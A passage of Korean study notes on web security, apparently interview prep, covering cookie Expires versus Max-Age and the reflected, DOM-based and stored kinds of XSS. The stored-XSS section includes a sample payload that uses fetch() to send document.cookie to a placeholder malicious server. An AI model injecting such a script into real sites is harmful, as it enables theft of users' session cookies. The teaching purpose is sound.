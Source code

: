 만약 두 옵션 중 하나라도 설정하지 않는다면 쿠키는 브라우저가 종료될 때까지 유지되며, 이를 **Session Cookie**라고 한다.

만약 두 옵션이 모두 설정되어 있다면 IE 6-8은 Expires를, 나머지 최신 브라우저들은 Max-Aage를 우선으로 인식한다.

Expires는 절대적인 시간을 사용하기 때문에 서버와 클라이언트의 시간대가 다를 경우 시간대(timezoe) 이슈가 발생할 수 있다. 결론적으로 문법이 간결하고 시간대 이슈가 없어 쿠키 만료 시간을 안정적으로 설정할 수 있으며 서버와 클라이언트 간 시간 불일치 문제를 방지하는 Max-Age 사용이 권장된다.

### 2. **XSS 공격의 동작 원리와, HttpOnly 속성이 쿠키를 보호하는 방식에 대해 설명해 주세요.**

XSS (Cross Site Scripting)

웹사이트 관리자가 아닌 이가 웹 사이트에 악성 스크립트를 삽입하는 취약점

→ 주로 다른 사이트간 정보를 교환하는 식으로 작동하여 사이트 간 스크립트 라고도 함

3가지 방법이 있다.

1. Reflected XSS
    
    유저의 입력을 그대로 페이지에 노출시키는 경우 (HTML, URL 등)
    
    즉, 사용자의 입력값이 그대로 서버로 전송될 수 있는 경우 → Escaping이 없는 경우
    
    공격 방식
    
    1. 공격자는 악의적 Script가 포함된 URL 혹은 HTML을 노출시킨다.
    2. Script에 의해 유저가 해당 URL로 접근 시, malicious JS를 자동으로 클라이언트에서 실행한다.
2. DOM Based XSS
    
    URL의 일부를 페이지에 그대로 노출시키는 경우
    
    → 사용자의 입력값을 DOM에서 직접 접근하여 처리하는 방식
    
    공격방식은 1. Reflected XSS와 동일하다
    
    ```html
    ex) URL: https://post/123
    
    <div>
    	포스트 번호 123
    </div>
    ```
    
3. Stored XSS
    
    게시판에 악성 스크립트를 삽입시킨 후, 해당 페이지를 방문하는 모든 유저가 이를 실행하도록 설계하는 방식
    
    공격 방식
    
    1. 공격자는 악의적 Script가 포함된 게시글을 업로드한다.
    2. 해당 URL을 유저에게 노출, 접속하면 자동으로 악의적 Script가 실행됨.
    
    ```html
    ex) 
    해당 정보를 담은 댓글을 작성하는 경우
    
    <script>alert(document.cookie)</script>
    
    <script>
    	fetch(악성 서버, {
    		method: 'POST',
    		mode: 'no-cors',
    		body: document.cookie
    	});
    <script>
    ```
